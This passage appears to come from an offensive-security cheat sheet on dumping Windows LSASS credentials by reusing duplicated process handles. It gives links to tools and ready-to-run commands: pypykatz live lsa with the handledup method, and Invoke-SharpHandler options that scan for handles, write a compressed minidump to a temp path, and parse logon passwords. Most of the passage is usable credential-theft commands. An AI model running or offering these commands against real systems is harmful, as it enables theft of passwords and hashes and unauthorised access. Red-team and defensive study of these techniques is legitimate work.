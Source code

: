 ```csharp
                IntPtr.Zero,
                IntPtr.Zero,
                IntPtr.Zero);
        }
    }
}
```
{% endcode %}




## Reusing Open Handles

- [https://rastamouse.me/duplicating-handles-in-csharp/](https://rastamouse.me/duplicating-handles-in-csharp/)
- [https://rastamouse.me/dumping-lsass-with-duplicated-handles/](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)



### pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)

```
Cmd > .\pypykatz.exe live lsa --method handledup
```



### SharpHandler

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1)

Scan if there are dupeable handles to use:

```
PS > Invoke-SharpHandler -C "-s"
```

Write a gzip-compressed minidump to specified location:

```
PS > Invoke-SharpHandler -C "-w -c -l=C:\Windows\Temp\pony.dat"
```

Dump and parse with SharpKatz's `logonpasswords`:

```
PS > Invoke-SharpHandler -C "-d"
```



### HandleKatz
